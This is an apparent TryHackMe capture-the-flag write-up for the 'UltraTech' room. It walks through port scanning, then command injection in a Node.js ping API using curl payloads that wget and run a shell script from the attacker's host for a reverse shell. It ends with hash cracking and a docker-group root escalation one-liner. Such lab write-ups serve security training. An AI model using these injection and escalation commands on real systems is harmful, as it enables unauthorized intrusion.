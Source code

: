 ```yaml
---
layout: post
title: UltraTech Writeup
date: 2020-08-20 11:00:00 +5:30
categories: [TryHackMe, Medium]
image: /assets/img/ultratech/header.png
tags: [tryhackme, docker, Enumeration, web] # add tag
---
```


## Description:

The Following Post is writeup of UltraTech room of tryhackme <https://tryhackme.com/room/ultratech1>

|Machine|Details
|:---|:--
|OS | Linux
|Rating | Medium
|Creator | lp1

## Summary:

  The room have only 4 ports open 21,22,8081,31331 we can see webpage in 31331 and login api in 8081.
  Webpage have few hidden pages and a code api.js we can get reverse shell using ping command which js executes.
  After shell we got the open database and after cracking hashes we will get user.
  The user have docker permissions so GTFObins and root.

## Walkthrough:

### Enumeration

As usual
Lets start with nmap scan
```terminal
┌─[root@parrot]─[~/Desktop/tryhackme/ultratech]
└──╼ $nmap -sC -sV 10.10.70.180
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-14 03:48 EDT
Nmap scan report for 10.10.70.180
Host is up (0.37s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
I missed something it looks like so went back to enum with masscan

```terminal
└──╼ $sudo masscan -i tun0 -p 0-65535 10.10.107.93

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-08-20 06:24:53 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 31331/tcp on 10.10.107.93                                 
Discovered open port 8081/tcp on 10.10.107.93                                  
Discovered open port 21/tcp on 10.10.107.93                                    
Discovered open port 22/tcp on 10.10.107.93
```

#### Webpage

Ah gotcha port 31331 have web page.<br />
![Webpage](/assets/img/ultratech/webpage.png)<br />
Let's enum a bit

Got robots.txt
```yaml
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```
Sitemap.txt
```yaml
/
/index.html
/what.html
/partners.html
```

We can see login portal in partners.html on trying auth it redirect  us to 8081 page with /auth.
let's check how this api is handled.

![JS](/assets/img/ultratech/js.png)

we can see api.js let's check.

![api.js](/assets/img/ultratech/apijs.png)

### Exploitation:

Now we know the js first check by pinging the host.
This is potential command injection we just have to replace the ping with a command.

![whoami](/assets/img/ultratech/pingwhoami.png)

Ah we can see it got executed.

let's get a reverse shell using

made a file and wget it to the machine and execute it
```terminal
curl http://10.10.190.208:8081/ping?ip=`wget ip/cmd.sh`  
curl http://10.10.190.208:8081/ping?ip=`bash%20./cmd.sh`
```
```terminal
└──╼ $pwncat --listen --port 4444
bound to 0.0.0.0:4444 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━[11:00:54] received connection from 10.10.190.208:58502                                                                 connect.py:149
[11:00:57] new host w/ hash f3ffe57d520772919cc2b2bb75c3c44c                                                             victim.py:328
[11:01:14] pwncat running in /bin/sh                                                                                     victim.py:362
initializing: complete ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0%
[11:01:21] pwncat is ready 🐈                                                                                            victim.py:758


\[\033[01;31m\](remote)\[\033[00m\] \[\033[01;33m\]\u@\h\[\033[00m\]:\[\033[01;36m\]\w\[\033[00m\]$

```
Alright got shell as www user and we can see the db file.
![DB](/assets/img/ultratech/techdb.png)

Got the hashes, move to cracking.
![Cracking](/assets/img/ultratech/hashcracked.png)

Yessss got r00t user let's see what we can do with it.

```terminal
r00t@ultratech-prod:/tmp$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)

so we can see docker privesc time

r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it bash chroot /mnt sh      
```

rooted Ultratech :)

